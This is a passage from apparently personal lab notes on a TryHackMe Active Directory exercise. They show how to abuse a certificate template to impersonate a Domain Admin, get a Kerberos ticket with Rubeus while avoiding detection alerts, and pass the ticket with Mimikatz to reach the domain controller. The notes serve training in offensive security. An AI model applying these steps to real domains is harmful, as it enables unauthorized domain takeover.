 1. Click **Start**->**run**
2. Type **mmc** and hit enter
3. Click **File**->**Add/Remove Snap-in..**
4. Add the **Certificates** snap-in and make sure to select **Computer Account** and **Local computer** on the prompts.
5. Click **OK**

Request a personal certificate:

1. Right Click on **Personal** and select **All Tasks**->**Request New Certificate...**
2. Click **Next** twice to select the AD enrollment policy.
3. You will see that we have one template that we can request, but first, we need to provide additional information.
4. Click on the **More Information** warning.
5. Change the **Subject name Type** option to **Common Name** and provide any value, since it does not matter, and click **Add**.
6. Change the **Alternative name Type** option to **User principal name**.
7. Supply the UPN of the user you want to impersonate. The best would be a DA account such as Administrator@za.tryhackme.loc and click **Add.**

Click **Apply** and **OK**, than select the certificate and click **Enroll**. You should be able to see your certificate.

Export our certificate with the private key:

1. Right-click on the certificate and select **All Tasks**->**Export...**
2. Click **Next**, select **Yes, export the private key**, and click **Next**.
3. Click **Next**, then set a password for the certificate since the private key cannot be exported without a password.
4. Click **Next** and select a location to store the certificate.
5. Click **Next** and finally click **Finish.**

##### User Impersonation through a Certificate

Steps to impersonate a user:

- Use the certificate to request a Kerberos TGT.
- Load the Kerberos TGT into your hacking platform of choice.

`<Rebeus.exe file path> asktgt /user:<username we impersonate> /enctype:<encryption type for the ticket> /certificate:<path to the certificate> /password:<the password for the certificate file> /outfile:<the file where the TGT will be output to> /domain:<FQDN of the domain we are attacking> /dc:<the IP of the DC we are requesting a TGT from>` - This is the command for the first step, username should be the same as the UPN of the certificate we generated, enctype should be something not weak (you can use aes256 for example), to not raise overpass-the-hash alert.

Now we can use Mimikatz to load the TGT and authenticate to THMDC:

`privilege::debug`
`kerberos::ptt administrator.kirbi`
`exit`

`dir \\THMDC.za.tryhackme.loc\c$\` - Verify you compromised the domain.

## Exploiting Domain Trusts

